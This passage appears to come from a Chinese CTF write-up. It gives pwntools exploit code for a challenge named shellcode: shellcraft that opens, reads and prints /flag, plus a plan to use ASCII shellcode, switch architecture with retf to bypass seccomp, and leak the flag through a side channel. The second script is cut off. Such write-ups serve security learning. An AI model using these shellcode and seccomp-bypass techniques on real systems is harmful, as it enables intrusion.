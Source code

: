 ​

p.sendline(shellcode)

# pause()

​

shellcode = shellcraft.pushstr(“/flag”)

shellcode += shellcraft.open(“rsp”)

shellcode += shellcraft.read(‘rax’, ‘rsp’, 100)

shellcode += shellcraft.write(1, ‘rsp’, 100)

​

print(len(asm(shellcode)))

p.send(asm(shellcode))

​

p.interactive()

**[****强网先锋] shellcode**

首先照着[https://nets.ec/Ascii_shellcode](https://nets.ec/Ascii_shellcode) 写个x64的Ascii shellcode调用read读shellcode。然后通过retf切换32位架构绕过seccomp执行open。最后侧信道泄露flag即可

import pwn

​

import time

​

#pwn.context.log_level = “debug”

​

def guess(idx, ch):

    #p = pwn.process(‘./shellcode’)

    p = pwn.remote(“39.105.137.118”, 50050)

​

    shellcode = ”’

        push r9;

        pop rdi;

​

        push rbx;

        pop rsi;
